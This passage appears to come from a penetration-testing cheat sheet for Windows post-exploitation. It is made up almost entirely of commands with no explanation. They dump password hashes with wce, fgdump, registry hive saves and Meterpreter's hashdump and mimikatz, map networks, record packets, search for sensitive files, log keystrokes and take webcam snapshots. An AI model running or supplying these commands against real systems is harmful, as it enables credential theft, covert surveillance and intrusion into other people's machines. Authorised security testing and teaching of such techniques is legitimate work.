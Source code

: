 ### Passwords and hashes

```
wce32.exe -w
wce64.exe -w
fgdump.exe

# Loot passwords without tools
reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

# Meterpreter
hashdump
load mimikatz
msv
```

### Dualhomed

```
ipconfig /all
route print

# What other machines have been connected
arp -a
```

### Tcpdump

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql
hashdump
keysscan_start
keyscan_dump
keyscan_stop
webcam_snap

# How to cat files in meterpreter
cat c:\\Inetpub\\iissamples\\sdk\\asp\\components\\adrot.txt

# Recursive search
dir /s
```

